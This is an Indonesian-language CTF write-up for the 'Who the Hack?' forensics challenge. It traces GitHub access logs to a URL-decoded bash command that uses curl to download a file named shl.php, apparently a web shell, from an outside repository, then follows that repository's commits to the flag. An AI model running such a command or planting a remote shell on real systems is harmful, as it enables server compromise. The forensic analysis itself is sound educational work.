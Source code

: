 Diberikan sebuah file zip berisi log [Who the Hack?](https://drive.google.com/file/d/1ouyE7lotHqvizz4A4LN-fiHWWj9iX3WT/view) dan setelah di telaah lagi ada chall yang menunjukan penyelesaian untuk challenge ini sebenarnya ada pada file challenge satunya yaitu: [Romeo and Dulliete](https://drive.google.com/file/d/17ZYM5bBvk69eGft2zA3sMhQwICnxwLNd/view?usp=sharing) langsung saja di analyze file satunya.

Di kedua file _Dulliet.txt_ & _Romeo.txt_ tersebut, kami menemukan banyak log access github

<br>
<div style="text-align:center">
<img src="https://raw.githubusercontent.com/nopedawn/CTF/main/0ByteCTF23/Who-the-Hack%3F/img/2.png">
</div>
<br>

Kami coba decode urlnya dan didapat command bash,

<br>
<div style="text-align:center">
<img src="https://raw.githubusercontent.com/nopedawn/CTF/main/0ByteCTF23/Who-the-Hack%3F/img/3.png">
</div>
<br>

```bash {title="bash"}
curl -s "https://raw.githubusercontent.com/graycatninja/own/main/shl.php" > xhl
```

<br>
<div style="text-align:center">
<img src="https://raw.githubusercontent.com/nopedawn/CTF/main/0ByteCTF23/Who-the-Hack%3F/img/4.png">
</div>
<br>

Hmm.. kemudian kami coba cek dengan username <b>graycatninja</b> dengan akses ke repo [https://github.com/graycatninja/own](https://github.com/graycatninja/own)

<br>
<div style="text-align:center">
<img src="https://raw.githubusercontent.com/nopedawn/CTF/main/0ByteCTF23/Who-the-Hack%3F/img/5.png">
</div>
<br>

Terdapat 4 commits pada repo

<br>
<div style="text-align:center">
<img src="https://raw.githubusercontent.com/nopedawn/CTF/main/0ByteCTF23/Who-the-Hack%3F/img/6.png">
</div>
<br>

Pada commit ke-2, Create flag `5f760e1` ada flagnya

<details><summary>Flag</summary></details>

<details><summary>*note</summary></details>
